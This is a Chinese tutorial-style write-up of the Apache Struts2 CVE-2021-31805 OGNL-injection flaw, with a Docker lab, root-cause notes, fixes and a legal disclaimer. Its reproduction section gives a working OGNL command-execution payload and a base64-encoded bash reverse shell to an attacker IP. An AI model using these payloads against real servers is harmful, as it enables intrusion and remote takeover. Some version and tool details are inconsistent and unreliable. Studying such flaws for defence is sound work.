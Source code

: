 
## 目录
1. [Struts2 框架介绍](#struts2-框架介绍)
2. [漏洞概况](#漏洞概况)
3. [漏洞复现](#漏洞复现)
4. [漏洞原理分析](#漏洞原理分析)
5. [修复方案](#修复方案)
6. [法律声明](#法律声明)

---

## Struts2 框架介绍

### MVC 架构与 Struts2
- **MVC（Model-View-Controller）**：  
  - **作用**：分离页面展示代码与业务逻辑代码，提升可维护性和开发效率。  
  - **Struts2 实现**：  
    - **请求流程**：浏览器 → Struts2（控制器） → Action（业务逻辑） → JSP（视图） → 响应。  
    - **核心组件**：  
      - **路由（Route）**：定义请求转发规则。  
      - **拦截器（Interceptor）**：处理请求前后的逻辑（如权限校验）。  
      - **标签库**：支持 OGNL 表达式，简化视图层开发。  

### Struts2 历史
- 2001 年发布，2007 年发布 2.0 版本。  
- 与 Spring、Hibernate 组成经典的 **SSH（Struts2 + Spring + Hibernate）** 架构。  

---

## 漏洞概况

### 基本信息
- **CVE 编号**：CVE-2021-31805  
- **漏洞类型**：远程代码执行（RCE）  
- **漏洞根源**：恶意 OGNL 表达式注入  
- **影响版本**：`2.0.0 <= Apache Struts <= 2.5.29`  
- **关联漏洞**：CVE-2020-17530（S2-061）  

### 漏洞背景
- **时间线**：2022 年 4 月 13 日公开细节，攻击者可通过构造恶意请求绕过安全限制，执行任意代码。  
- **官方文档**：  
  - [CVE-2021-31805 详情](http://cve.mitre.org/cgi-bin/cekey.cgi?keyword=CVE-2021-31805)  
  - [Apache Struts 安全公告](https://cwiki.apache.org/confluence/display/WW/S2-062)  

---

## 漏洞复现

### 环境搭建
#### 方式 1：Docker 靶场（推荐）
```yaml
# docker-compose.yml
version: '2'
services:
  struts2:
    image: vulhub/struts2:2.5.25
    ports:
      - "18080:8080"
```
启动命令：  
```bash
docker-compose up
```

#### 方式 2：本地源码调试
- 下载 Struts2 2.5.25 版本源码，配置调试环境。  

### 漏洞利用步骤
#### 1. 验证漏洞存在
```http
GET /index.action?id=%25{6*6} HTTP/1.1
Host: 192.168.142.128:18080
```
响应中若包含 `36`，说明 OGNL 表达式已执行。

#### 2. 执行任意命令（示例：`whoami`）
```http
POST /index.action HTTP/1.1
Host: 192.168.142.128:18080
Content-Type: multipart/form-data; boundary=WebKitFormBoundary

--WebKitFormBoundary
Content-Disposition: form-data; name="id"

%{
  #request.map=#@org.apache.commons.collections.BeanMap@{},
  #request.map.setBean(request.get('struts.valueStack')),
  #application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec('whoami')
}
--WebKitFormBoundary--
```

#### 3. 反弹 Shell（需提前监听）
```bash
# 攻击机监听
nc -lvvp 7777

# Payload 中替换以下命令（Base64 编码）
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTAwLzc3NzcgMD4mMQ==}|{base64,-d}|{bash,-i}
```

---

## 漏洞原理分析

### OGNL 表达式注入
- **OGNL（Object-Graph Navigation Language）**：  
  - Struts2 默认支持的表达式语言，用于动态访问对象属性和方法。  
  - 攻击者通过 `%{...}` 注入恶意表达式，触发二次解析。  

### 关键绕过技术
1. **BeanMap 绕过黑名单**：  
   - 使用 `BeanMap` 修改 `memberAccess` 对象的 `excludedPackageNames` 和 `excludedClasses`，解除安全限制。  
2. **InstanceManager 实例化危险类**：  
   - 通过 `freemarker.template.utility.Execute` 类执行系统命令。  

### 调试入口
- **触发点**：`ComponentTagSupport#doStartTag()` 方法中的 `populateParams()` 和二次解析逻辑。  
- **代码片段**：  
  ```java
  ValueStack stack = this.getStack();
  this.component = this.getBean(stack, (HttpServletRequest)this.pageContext.getRequest());
  this.populateParams();  // 第一次解析参数
  boolean evalBody = this.component.start(this.pageContext.getOut());  // 第二次解析触发漏洞
  ```

---

## 修复方案

### 官方修复
1. **升级版本**：  
   - Apache Struts >= 2.5.30 或 2.3.37（官方已修复版本）。  
2. **禁用危险配置**：  
   ```xml
   <!-- struts.xml -->
   <constant name="struts.ognl.allowStaticMethodAccess" value="false"/>
   ```

### 临时缓解
- **输入过滤**：对用户输入的 `%{` 和 `}` 进行转义或拦截。  
- **禁用动态方法调用**：  
  ```xml
  <constant name="struts.enable.DynamicMethodInvocation" value="false"/>
  ```

### 检测工具
- **手动检测**：发送包含 `%{6*6}` 的请求，检查返回结果是否包含 `36`。  
- **自动化工具**：  
  ```bash
  pip3 install kml
  s2-062.py --url http://target.com --cmd whoami
  ```

---

## 法律声明
> **《中华人民共和国网络安全法》第二十七条**  
> 任何个人和组织不得从事非法侵入他人网络、干扰他人网络正常功能、窃取网络数据等危害网络安全的活动；不得提供专门用于从事侵入网络、干扰网络正常功能及防护措施、窃取网络数据等危害网络安全活动的程序、工具；明知他人从事危害网络安全的活动的，不得为其提供技术支持、广告推广、支付结算等帮助。  
> **本内容仅用于防御性技术研究，严禁用于非法用途！**
```